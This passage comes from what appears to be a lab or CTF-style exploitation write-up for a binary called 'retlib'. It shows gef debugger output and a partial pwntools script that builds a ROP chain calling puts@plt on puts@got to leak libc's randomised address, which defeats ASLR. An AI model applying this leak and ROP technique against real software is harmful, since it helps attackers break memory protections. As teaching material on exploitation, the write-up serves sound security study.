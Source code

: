 The code initialises the address of `puts` in libc into the GOT before
returning. After the initialisation, the GOT entry now contains a randomised
libc address.

```shell
gef➤  x/xw 0x804a014
0x804a014 <puts@got.plt>:    0xb75d47e0
gef➤  vmmap
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /vagrant/assignment1/retlib
0x08049000 0x0804a000 0x00000000 r-- /vagrant/assignment1/retlib
0x0804a000 0x0804b000 0x00001000 rw- /vagrant/assignment1/retlib
0x09520000 0x09541000 0x00000000 rw- [heap]
0xb756e000 0xb756f000 0x00000000 rw-
0xb756f000 0xb771a000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.19.so
0xb771a000 0xb771c000 0x001aa000 r-- /lib/i386-linux-gnu/libc-2.19.so
0xb771c000 0xb771d000 0x001ac000 rw- /lib/i386-linux-gnu/libc-2.19.so
0xb771d000 0xb7720000 0x00000000 rw-
0xb7728000 0xb772b000 0x00000000 rw-
0xb772b000 0xb772c000 0x00000000 r-x [vdso]
0xb772c000 0xb774c000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.19.so
0xb774c000 0xb774d000 0x0001f000 r-- /lib/i386-linux-gnu/ld-2.19.so
0xb774d000 0xb774e000 0x00020000 rw- /lib/i386-linux-gnu/ld-2.19.so
0xbfb11000 0xbfb32000 0x00000000 rw- [stack]
gef➤
```

Thus, if we call `puts` in PLT with the address of `puts` in the GOT, we can
leak the resolved libc address. The following code snippet creates a ROP chain
to `puts` the libc address of `puts` and then crash. The python script will
receive the leaked address in `stdout`, unpack the raw bytes into a 32 bit
integer value, and display it.

```python
...
puts_plt = 0x08048380
puts_got = 0x804a014
...
    # Create the rop chain
    rop  = p32(puts_plt)
    rop += p32(0xdeadbeef)
    rop += p32(puts_got)
...
    # Get leak of puts in libc
    leak = p.recv(4)
    puts_libc = u32(leak)
    log.info("puts@libc: 0x%x" % puts_libc)
    p.clean()
...
```

The next step would be to obtain some important offsets of values and functions
within the raw libc shared object to calculate the libc base and other useful
libc functions. To do this, we can use the libc-database tool by Niklas
Baumstark
([https://github.com/niklasb/libc-database](https://github.com/niklasb/libc-database)).
